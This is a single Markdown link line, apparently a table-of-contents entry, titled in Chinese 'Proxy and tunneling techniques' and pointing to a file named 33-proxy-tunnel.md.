[代理与隧道技术](33-proxy-tunnel.md)